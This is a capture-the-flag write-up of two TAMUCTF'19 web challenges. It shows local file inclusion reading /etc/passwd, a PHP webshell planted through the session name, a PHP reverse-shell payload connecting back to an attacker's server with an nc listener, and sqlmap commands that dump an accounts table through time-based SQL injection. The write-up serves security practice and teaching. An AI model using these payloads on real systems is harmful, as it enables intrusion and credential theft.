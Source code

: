 ```yaml
---
layout: post
title: TAMUCTF - Web Exploitation
excerpt: ""
categories: [Writeups, TAMUCTF'19]
tags: [web]
---
```


I did two web challenges for TAMU CTF and they were mostly applications of standard attacks. The sql inejection was interesting because it was not immediately obvious that it was injectable.

#### FILESTORAGE
```
Try out my new file sharing site!

http://filestorage.tamuctf.com
```

When we first go to the site, we are given a box to input our name. As with any website, we just play around with the website and enter a random name. After we enter a name, we are greeted with a page that says there are three items. By clicking on the hello.txt, we see the url becomes `http://filestorage.tamuctf.com/index.php?file=hello.txt` This inclusion clearly looks like a local file inclusion vulnerability.  

We see that we can include `/etc/passwd` by going to the url `http://filestorage.tamuctf.com/index.php?file=../../../../../../etc/passwd` which outputs the content successfully.   Now that we have LFI, where is the flag? After trying common files such as `/flag.txt` and `flag.txt`, I did not find find the flag. My next step was the get a php shell. 

The first thing I checked is if I could access the `/proc` directory which contains information about running processes. By visiting `http://filestorage.tamuctf.com/index.php?file=../../../../../../proc/self/cmdline` we confirm that we have access to the `/proc` folder. The next step was to enumerate through the `/proc/self/fd/#` directory to see if we could include some php code. I wrote this quick script to enumerate through the directory making sure to include the cookie `PHPSESSID` otherwise the file would not load.
```python
import requests  
  
cookies = {'PHPSESSID': 'copjc75a4klhenr59g98enqm74'}  
  
for i in range(0, 10000):  
  
r = requests.get('http://filestorage.tamuctf.com/index.php?file=../../../../../../proc/self/fd/' + str(i), cookies  
=cookies)  
  
print('req ' + str(i))  
print(r.text)
```

Looking at the output, it seemed like `http://filestorage.tamuctf.com/index.php?file=../../../../../../proc/self/fd/9` the output  of the page was `name|s:6:"redpwn";` It seems like our serialized session can be accessed from `/proc/self/fd/9`. Now we have a vector to include a php shell.

By setting our name to `<?php passthru($_REQUEST['c']); ?>` we can include a php webshell. Now if we visit `http://filestorage.tamuctf.com/index.php?file=../../../../../../proc/self/fd/9&c=ls` we are able to run arbitrary commands on the server. A quick `ls -la /` shows a directory named `flag_is_here` which contains `flag.txt`. We get the flag by catting this file. The complete final payload was `http://filestorage.tamuctf.com/index.php?file=../../../../../../proc/self/fd/9&c=cat%20/flag_is_here/flag.txt`.

This method was using a php webshell, but is it possible to get a full reverse shell? A similar approach to the php shell can we taken, we just need to run some php which will launch a reverse shell to our server. The payload which I used was `<?php $sock = fsockopen("ip",port);$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>` where the ip and port is a serrver we control.  Before we execute this php, we need to listen on our server. The command to setup a listening server is `nc -nvlp port` 

After we have our server listening, we can run the php code by visiting `http://filestorage.tamuctf.com/index.php?file=../../../../../../proc/self/fd/9`. On our server, we recieve a new connection from the webserver and we now have a full reverse shell. Now we can run the same commands `ls /` and `cat /flag_is_here/flag.txt`

#### PASSWORD_EXTRATOR
```
The owner of this website often reuses passwords. Can you find out the password they are using on this test server?

http://passwordextraction.tamuctf.com
```

When we first visit the site, we see that there is a form with a login and password. The first thought is that there is a sql injection. The title hints towards extracting the password, however I just wanted to test an auth bypass with the standard `' OR 1=1--` .  Normally, this would allow me to authenticate as a user and indicates that SQL injection is an attack vector. However, for this website all I recieved was `Invalid login info`.

Looking at the requests being made, the form submitted to `http://passwordextraction.tamuctf.com/login.php`  with parameters `username` and `password`. I wasn't sure what to do so I launched sqlmap. SQLMap can be found from this git repository `https://github.com/sqlmapproject/sqlmap`.

The first command was to see if the website was vulnerable. It is a post request and the `*` represents parameters to test for injection.
```
./sqlmap.py -u http://passwordextraction.tamuctf.com/login.php --method POST --data="username=*&password=*" --risk=3
```
SQLMap found a vulnerability in a time based injection. The payload used was 
```
' AND (SELECT 9235 FROM (SELECT(SLEEP(5)))yzuo) AND 'E
```

From here, we can just extract data from the database and find the flag. First we list all databases.
```
./sqlmap.py -u http://passwordextraction.tamuctf.com/login.php --method POST --data="username=*&password=*" --risk=3 -dbs
```

We see there is a non-default database named `db`, so we want extract the tables.

```
./sqlmap.py -u http://passwordextraction.tamuctf.com/login.php --method POST --data="username=*&password=*" --risk=3 -D db -tables
```

We see there is a table named `accounts` and want to dump all the information in it.

```
./sqlmap.py -u http://passwordextraction.tamuctf.com/login.php --method POST --data="username=*&password=*" --risk=3 -D db -T accounts --dump
```

The extract data yields the admin user and its password, which is the flag.

Interestingly, I was curious as to why my authentication payload did not work so I went back to the main website and testsed with the credentials I extracted. I was surprised to see the same `Invalid login info.` It seems like if the autentication was successful, the page displayed was the same which is why I didn't realize the site was even vulnerable after testing with the authentication bypass payload. However, when I used the command from SQLMap, the page loaded after a couple of seconds, indicating that the time based injection had worked. This is interesting to note for the future because even though there was initially no clear indication that sql injection was an attack vector, however it was still vulnerable with a different attack type.
